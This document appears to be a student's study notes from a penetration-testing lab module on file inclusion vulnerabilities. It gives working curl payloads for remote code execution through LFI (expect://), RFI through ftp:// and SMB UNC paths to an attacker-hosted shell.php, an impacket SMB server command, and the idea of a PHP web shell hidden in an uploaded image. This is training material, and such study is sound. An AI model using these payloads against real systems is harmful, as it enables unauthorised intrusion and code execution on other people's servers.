 If the above keyword "expect" is enabled in the configuration file, then we would use it for Remote Code Execution through the Local File Inclusion Vulnerability : 
```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)

![[Pasted image 20250619110423.png]]

## Verify the RFI
For the RFI, to be present the language must allow Remote URLs to be included somehow, so we need to check that using the previous approach only, with the command : 
`echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include`

So, even if the back-end language allows this variable, it still might not have RFI Vulnerability, so we can start that by checking a local address like 127.0.0.1, and we can do that by using the command : `curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'`

## SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows: `impacket-smbserver -smb2support share $(pwd)`

 We can try adding`http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami`

---
# LFI and File Uploads

File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.

The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module covers different techniques on how to exploit file upload forms and functionalities. However, for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

As mentioned in the first section, the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:
![[Pasted image 20250619161318.png]]
